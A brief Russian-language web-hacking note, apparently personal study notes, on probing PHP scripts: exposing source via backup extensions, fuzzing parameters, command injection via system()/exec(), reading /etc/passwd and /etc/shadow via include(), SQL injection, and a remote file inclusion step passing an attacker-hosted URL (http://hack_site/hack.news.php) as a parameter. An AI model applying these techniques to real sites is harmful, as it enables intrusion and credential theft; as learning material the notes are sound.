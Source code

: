 ### Сбор информации
При обращении к файлу с раширением .php он выполняется интерпретатором и исходный код увидеть не получится, при этом, емли переименовать файл на другое расширение (например old или bak), то можно опоробовать открыть или скачать файл.
  Элементы кода которым стоит обратить внимание:
  - коментарии
  - скрытые формы и параметры: могут передаваться с парамтерами GET или POST и содержать важную инфу.
  
  После сбора инфы начинается проверка сценариев на корретность обработки входных данных. Для этого во всех параметрах передается "мусор" (- _ : / \ и тд) Если на какой-то символ сценарий выдал ошибку это говорит о том, что символ обрабатывается неверно и необходимо исследовать этот момент.
    Наиболее критичные:
     - функции обращения к системе, например: system() , exec() и тд. Если при обращении к этим функциям не происходит проверка на спец символы, то пробовать выполнить системные команды (pwd, ls и тд)
     - функции работы с файлами, например include(), readfile() и тд. К примеру попробовать прочитать конфигурационные файлы (/etc/passwd  /etc/shadow)
     - SQL-запросы. Нарушить работоспособность БД, получить доступ к конфиденциальной информации.
     
Основная уязвимость сценариев - отсутствие проверки корректности параметров и данных, получаемых от пользователя.

 <ins>сценарий фильтрует спец символы и программно подставляет раширение файла news.php</ins>
 - создать на своем серваке файл, например http://hack_site/hack.news.php
 - передать этот файл как параметр: http://site.name/index.php?file=http://hack_site/hack.news.php
 - если файл подключается сценарием include() или require() , то будет исполнен.
